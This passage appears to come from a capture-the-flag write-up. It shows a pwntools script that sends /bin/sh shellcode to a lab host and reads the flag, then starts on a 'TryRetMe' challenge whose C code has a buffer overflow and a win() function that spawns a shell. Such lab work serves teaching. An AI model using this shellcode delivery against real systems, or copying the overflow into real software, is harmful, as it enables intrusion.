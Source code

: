 ```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")

r = remote("10.10.74.205", 9005)

payload = asm(shellcraft.sh())      # generates a shellcode that spawns /bin/sh

r.recvuntil(b"Give me your shell, and I will execute it: \n")

r.sendline(payload)

r.recvuntil(b"Executing Spell...\n\n")
# r.interactive()                   # uncomment for an interactive shell
r.sendline(b"cat flag.txt")
print(r.recvline().decode())
r.close()
```

With this, we get the third flag.

## TryRetMe

### Solving the Challenge

For the `TryRetMe` challenge, we are given the below reference code:

```c
int win(){

    system("/bin/sh");
}

void vuln(){
    char *buf[0x20];
    puts("Return to where? : ");
    read(0, buf, 0x200);
    puts("\nok, let's go!\n");
}

int main(){
    setup();
    vuln();
}
```

The vulnerability is similar to those in the previous challenges:

First, it allocates an array with `256` bytes.

```c
char *buf[0x20];
```
